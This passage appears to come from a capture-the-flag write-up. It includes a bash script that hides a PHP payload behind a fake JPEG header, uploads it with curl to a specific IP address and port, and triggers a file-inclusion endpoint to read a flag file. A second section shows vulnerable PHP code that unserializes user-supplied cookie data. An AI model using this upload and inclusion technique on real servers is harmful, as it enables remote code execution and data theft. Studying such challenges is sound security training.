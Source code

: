 ```bash
#!/bin/bash
# Create a fake JPEG file header (bypasses )
printf "\xFF\xD8\xFF\xE0\x00\x10JFIF\x00\x01" > evil.jpg  
# Append a PHP payload to read and print the flag since we know its it /var
printf '<?php ob_clean(); $flag = file_get_contents("/var/flag.txt"); echo $flag; ?>' >> evil.jpg  
# Upload the malicious "image" file using a POST request (stores session cookies)
curl -X POST -c cookies.txt -b cookies.txt -F "file=@evil.jpg" "http://20.199.80.129:2030/contact.php"  
# Trigger the file inclusion vulnerability to execute the uploaded PHP code
curl -b cookies.txt -H "X-API-Key: PIRATE_KEY_789" "http://20.199.80.129:2030/internal/api.php?action=include&file=/uploads/evil.jpg" --output flag.txt  
# Display the extracted flag
cat flag.txt  
```

>Poc
![](Pasted%20image%2020250223183015.png)

## IV. SerialKiller 🔪
For this task we got `secrets.php` where the app uses PHP’s `unserialize()` function on user-controlled cookie data
```php
// secrets.php
<?php
    class Secret {
        public $username;
        public $token;
        public function __construct($username, $token) {
            $this->username = $username;
            $this->token = $token;
        }
    }
    function setSecretCookie() {
        $test = new Secret('test', 'weaktoken');
        setcookie('secret', base64_encode(serialize($test)), time() + 3600, "/");
    }

    if (isset($_POST['set']) && $_POST['set'] == 'Reset') {
        setSecretCookie();
    }
    if (isset($_COOKIE['secret'])) {
        $user = unserialize(base64_decode($_COOKIE['secret']));
        if ($user->username==='admin' && $user->token==='ABCDDAZAZUIDUBIUAFZ123456789') {
            echo '<div class="terminal">Securinets{fake_flag}</div>';
        } else {
            echo '<div class="terminal">Sup low Privileged Punk</div>';
        }
    }
?>
```
